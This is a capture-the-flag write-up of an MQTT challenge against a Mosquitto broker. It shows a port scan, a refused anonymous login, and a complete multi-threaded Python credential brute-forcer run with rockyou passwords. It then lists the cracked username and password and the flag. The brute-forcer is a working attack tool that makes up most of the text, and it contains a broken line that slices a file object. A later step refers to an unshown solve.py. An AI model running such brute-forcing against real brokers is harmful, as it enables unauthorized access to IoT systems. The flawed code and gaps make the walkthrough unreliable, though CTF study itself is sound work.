


# Bite

Challenge description had a single clue: *"Mosquitoes are biting a lot these days."*

Obvious pun on **Eclipse Mosquitto** (standard MQTT broker on default port 1883).

Scanned the target:
```bash
$ nmap -sC -sV -p 1883 iot.secleaf.xyz
PORT     STATE SERVICE VERSION
1883/tcp open  mqtt    Mosquitto
```

First checked if anonymous login was enabled with `mosquitto_sub`:
```bash
$ mosquitto_sub -h iot.secleaf.xyz -p 1883 -t '#' -v
Connection error: Connection Refused: not authorised.
```



Anonymous access was disabled (`allow_anonymous false`). With no rate limiting on the port, spun up a quick multi-threaded python brute-forcer over standard IoT usernames and rockyou:

```python
import socket, struct, threading, queue

HOST, PORT = "iot.secleaf.xyz", 1883

def check(u, p):
    p16 = lambda s: struct.pack(">H", len(s)) + s
    payload = p16(b"audit") + p16(u.encode()) + p16(p.encode())
    pkt = p16(b"MQTT") + bytes([4, 0xC2]) + struct.pack(">H", 30) + payload
    try:
        s = socket.create_connection((HOST, PORT), 3)
        s.sendall(bytes([0x10, len(pkt)]) + pkt)
        res = s.recv(8)
        s.close()
        return len(res) >= 4 and res[3] == 0
    except: return False

q = queue.Queue()
for u in ["user", "admin", "mqtt", "iot"]:
    for p in open("/usr/share/wordlists/rockyou.txt", encoding="latin-1")[:3000]:
        q.put((u, p.strip()))

def worker():
    while not q.empty():
        u, p = q.get()
        if check(u, p):
            print(f"[+] Cracked: {u}:{p}")
            with q.mutex: q.queue.clear()

for _ in range(25): threading.Thread(target=worker).start()
```

Hit credentials almost instantly:
`user : forever1`

Connected back with credentials or running `solve.py` to pull the retained message:

```bash
$ python3 solve.py
```



The broker dropped the retained flag immediately:
```text
SecLeaf{mqTT_Br0k3r@$}
```
